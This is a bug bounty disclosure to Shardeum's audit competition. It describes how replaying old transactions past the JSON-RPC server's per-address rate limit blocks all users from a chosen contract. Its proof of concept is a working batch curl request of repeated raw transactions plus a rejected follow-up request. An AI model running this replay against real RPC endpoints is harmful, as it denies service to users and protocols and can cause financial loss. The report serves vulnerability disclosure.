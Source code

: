 # #39820 \[W\&A-Medium] Blocking all users from interacting with particular contracts/protocols via JSON-RPC server

**Submitted on Feb 8th 2025 at 09:55:13 UTC by @anton\_quantish for** [**Audit Comp | Shardeum: Ancillaries III**](https://immunefi.com/audit-competition/audit-comp-shardeum-ancillaries-iii)

* **Report ID:** #39820
* **Report Type:** Websites and Applications
* **Report severity:** Medium
* **Target:** https://github.com/shardeum/json-rpc-server/tree/itn4
* **Impacts:**
  * RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer

## Description

## Brief/Intro

I found a way to prevent all the JSON-RPC users from interacting with particular contracts/protocols.

## Vulnerability Details

Every JSON-RPC method call passes through the `rateLimitMiddleware` which, in turn, passes them through `utils.ts:isRequestOkay` checking method.

If the method called is 'eth\_sendRawTransaction', the transaction object restores from the raw tx hash and, among the other checks, the `to` address requests history is checked:\
https://github.com/shardeum/json-rpc-server/blob/aba70af9ae65b59034c87ced1253a7478a2a0293/src/utils.ts#L1114-L1142

```js
if (config.rateLimit && config.rateLimitOption.limitToAddress) {
          const toAddressHistory = this.heavyAddresses.get(readableTx.to)
          if (toAddressHistory && toAddressHistory.length >= 10) {
            if (now - toAddressHistory[toAddressHistory.length - 10] < oneMinute) {
              this.addAbusedAddress(readableTx.to, readableTx.from as string, ip)
              // ... verbose logging ...
              // ... faucet check ...
              // ... tx status saving ...
              return false
            }
          }
        }
```

As you can see, if there are more than 10 transactions **to** the `to` address within the last minute, the `isRequestOkay` function returns `false`, so the incoming transaction is rejected.

This check allows an attacker to block all the JSON-RPC users from interacting with particular contracts/protocols by just periodically sending any (even incorrect) transactions to these contracts.

## Impact Details

I believe it pretty falls under the `RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer` impact.

Despite there's no exact JSON-RPC crash, it stops processing transactions to particular protocols/contracts from any user, that can affect lots of top-tier protocols (and even the whole Shardeum blockchain if any service contracts exist).

The attack can totally block all the JSON-RPC users from:

* interacting with any top tokens (that could lead to losing funds because of price fluctuations);
* updating oracle contracts data (that could lead to incorrect working of multiple protocols relying to oracles);
* interacting with Shardeum service contracts (that could disrupt the entire blockchain functionality).

## Proof of Concept

For instance, the attacker wants to block the JSON-RPC users from interacting with contract `0xcB059C5573646047D6d88dDdb87B745C18161d3b`.

All he needs is to take 2 different transactions to this contract from the Shardeum explorer. They could be old, or they could be newer than the current block number (from a different chain), and from any user – it doesn’t matter. For instance:

```
0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f

0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211
```

Then he sends the following batch JSON-RPC request:

```bash
curl http://127.0.0.1:8080 -XPOST --data '[{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf88a018506fc23ac0082b7a694cb059c5573646047d6d88dddb87b745c18161d3b80a42e1a7d4d00000000000000000000000000000000000000000000013ad4f3e9c6bf209800820135a0e4219b0b051f2016fa7657ead333f56e5cbbb3cd61346fa65fe5443b6b137781a063de6ac3975203e94b61d1a90e2c183c006942800106e61ced5fbf0ffe212211"],"id":1},{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab7484b2d05e0083017b0694cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000d92bfb959ebaf6febea3a53e80bb345afa7ce794000000000000000000000000000000000000000000000002f8603c262f2d16aa820136a0c0c60c0b0460f4f19017eb4c903a66c0a83624c4dc1665e980b14062fd3b7e36a037f7815e1f37e90b49d2f8e3b86bfae15ca097801f647598a58f6bff9b9bb59f"],"id":1}]' -H 'Content-Type: application/json'
```

It contains these 2 transactions repeated for 5 times.

You will see the following in the JSON-RPC server logs:

> Last tx TO this contract address 0xcb059c5573646047d6d88dddb87b745c18161d3b is less than 60s ago

Then, the other (legitimate) user attempts to send his own transaction to this contract:

```bash
curl http://127.0.0.1:8080 -XPOST --data '{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf8ab06850342770c0082fcaf94cb059c5573646047d6d88dddb87b745c18161d3b80b844a9059cbb000000000000000000000000a6eebc3ff4755a59528f84812967d4ba51942078000000000000000000000000000000000000000000000002ff7886959c1ec1ae820135a0217d6b52a02f45f7007cd803057075bc309ccc5f41dae231ffc3cc60f7eb5161a03d406bca8d5d46795616694f8a42b68b3e27af994888b99837f41b917fdc6c65"],"id":1}' -H 'Content-Type: application/json'
```

You will see it's rejected:

> Network is currently busy. Please try again later.

Thus, nobody can interact with this contract for the next minute. The attacker can repeat their malicious request once every minute, permanently blocking this contract from being interacted with by any user.
